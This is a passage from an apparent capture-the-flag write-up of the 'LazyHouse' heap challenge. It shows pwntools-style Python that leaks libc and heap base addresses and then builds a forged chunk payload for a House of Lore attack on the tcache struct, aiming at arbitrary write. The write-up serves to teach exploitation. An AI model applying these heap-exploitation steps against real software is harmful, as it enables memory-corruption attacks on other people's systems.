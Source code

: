 And show **house 1** to get **heap address** and **libc address**.
```
#leak
show_house(1, reading = False)
for i in range(0, 10):
    ru(p64(0xa1))
leaked_libc = u64(p.read(8))
leaked_heap = u64(p.read(8))

libc_base = leaked_libc - 0x1e4ca0
heap_base = leaked_heap - 0x1d60
log.critical("libc_base --> {}".format(hex(libc_base)))
log.critical("heap_base --> {}".format(hex(heap_base)))
```

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Heap/LazyHouse/index_files/383e4bd0-cefc-4320-a3ea-d408f39c1927.png)

### House of Lore
I use house of lore to fuck the tcache struct in heap range to reach the goal of arbitrary writing.
Firstly, I sell the bit chunk and buy the chunk to change the value overlapped by this chunk. This is really usefull in the consistance that we can only upgrade houses for twice.
By modifying chunks, we can make the change the size of the chunk of **house 2** to 0x21 and the size of the chunk of **house 7** to 0x31.
```
sell(1)

buy_house(1, 0x8c0, "\xbb" * 0xa0 +
          p64(0) + p64(0x21) + "\xcc" * 0x10 +
          p64(0) + p64(0xa1 - 0x20) + "\x00" * (0x90 - 0x20) +
          p64(0) + p64(0xa1) + "\xdd" * 0x90 +
          (p64(0) + p64(0xa1) + "\x11" * 0x90) * 7 +
          p64(0) + p64(0xa1) + p64(libc_base + 0x1e4d40 - 0x10) + p64(heap_base + 0x1d60) + "\x44" * 0x80 +
          p64(0) + p64(0x21) + "\x55" * 0x10 +
          p64(0) + p64(0xa1 - 0x20) + "\x00" * (0x90 - 0x20) +
          p64(0) + p64(0xa1) + p64(heap_base + 0x1c20) + p64(libc_base + 0x1e4d40 - 0x10) + "\x66" * 0x80 +
          p64(0) + p64(0x31) + p64(heap_base + 0x40) * 4 +
          p64(0) + p64(0xa1 - 0x30) + "\x00" * (0x90 - 0x30) )

#prepare for house of lore
sell(2)
sell(7)
sell(1)
```
After we free the chunk of **house 2** and the chunk of **house 7**, we get 2 bin pointer at heap_base + 0x50, which is quite useful for house of lore attack.

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Heap/LazyHouse/index_files/e8495a6f-dc12-47ef-9cb1-5486ef105476.jpg)

We sell the chunk of **house 1**, that big chunk, for further making a small bin at the address of that 0x21 tcache chunk. (The pointer in tcache struct is **&chunk + 0x10**)
We buy a chunk, the size of which is (0xb0 + 0x10), to make the top chunk start at the address of that 0x21 tcache bin. GREAT~
```
buy_house(1, 0xb0, "\x11" * 0xb0)
```
